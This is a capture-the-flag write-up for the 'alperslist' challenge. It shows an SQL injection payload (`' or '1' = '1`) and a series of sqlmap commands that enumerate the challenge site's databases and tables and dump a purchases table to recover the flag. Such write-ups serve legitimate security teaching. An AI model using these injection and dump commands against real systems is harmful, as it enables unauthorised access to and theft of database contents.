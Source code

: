 # alperslist Solution

In this challenge, main objective is to access to flag file in the website.

There is an SQL injection vulnerability in the search bar in the home. It can be demonstrated with 
the prompt `' or '1' = '1`. Since it makes a hard-search query to the database, effects can be seen 
easily. Once this vulnerability is discovered, contents of the database can be explored via `sqlmap`.

#### 1. Checking SQL injection via `sqlmap`

With the following command, we can make sqlmap to discover what kind of payload is required for exploitation:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a"`

#### 2. Exploring databases

Once we find out a way to exploit the SQL injection, we can use the following command to dump table information from the remote:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -dbs`

And we get the output:

![dbs](./images/dbs.png)


#### 3. Dumping tables

In order to dump tables, first we can use the following command to explore the tables:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -D alperslist --tables`

And we get the output:

![tables](./images/tables.png)

When we dump the table `purchases` we can see the download code for the flag with the following command:

`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -D alperslist -T purchases --dump`

And we get the output:

![flag](./images/purchases.png)


When we use the purchase code to download the file, we get the flag:

![flag](./images/flag.png)